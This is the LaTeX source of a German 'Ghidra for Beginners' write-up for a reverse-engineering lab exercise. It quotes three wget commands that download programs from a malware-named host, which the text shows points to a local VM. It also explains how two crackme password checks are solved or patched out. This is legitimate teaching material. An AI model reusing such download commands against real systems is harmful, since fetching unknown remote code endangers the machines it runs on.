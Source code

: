 \documentclass[a4paper,12pt,
headsepline,           %
oneside,               %
pointlessnumbers,      %
bibtotoc,              %
BCOR15mm               %
]{scrbook}
\title{Ghidra for Beginners}
\date{Juli 20, 2020}
\author{Björn Petersen}
\begin{document}
\maketitle

\section*{Einführung}
Durch das ausführen des Programms erscheinen die Programme 02\_a, 02\_b und 03, der nachfolgenden Aufgaben, auf dem Desktop. 
Nun soll das Programm 01 mit Ghidra untersucht werden. Es werden 3 \texttt{wget} Anweisungen gefunden:
\begin{lstlisting}
  wget -q http://malware.h4.xx0r/02_a
  wget -q http://malware.h4.xx0r/02_b
  wget -q http://malware.h4.xx0r/03
\end{lstlisting}
Es lässt sich mittels \texttt{dig} herausfinden, dass der DNS Eintrag auf localhost zeigt, was bedeutet, dass ein Webserver in der VM läuft.

\section*{Advanced}
\subsection*{Aufgabenteil a}
Durch Dekompilieren von Ghidra und interpretieren des C Codes wird klar, dass das Programm 2 Arumente entgegen nimmt, ein Passwort und eine Chiffre. Das Passwort hat eine Länge von 10 Zeichen, wobei Groß und Kleinschreibung irrelevant ist.
Das Passwort wird zu beginn zeichenweise in einen Integer umgerechnet, mit zehn multipliziert und anschließend modulo 26 gerechnet. Nun wird der Wert auf den ASCII Wert von 'a' gerechnet und zu einem Character konvertiert.
Wendet man den Algorithmus auf de Character 'a' direkt an, folgt der Character 'i' daraus. Eine korrekte Eingabe ist: "aaaaaaaaaa iiiiiiiiii".

\subsection*{Aufgabenteil b}
Durch analysieren des Codes stellt man fest, dass das Passwort immer eine zufällige Permutation aller Zeichen eines Strings im Code ist, der initiert ist mit "0123456789". Patcht man diesen String wie in der Vorlesung beschrieben zu 0000000000 sind alle Passwörter Permutation von 0, also wieder 0000000000.
\end{document}
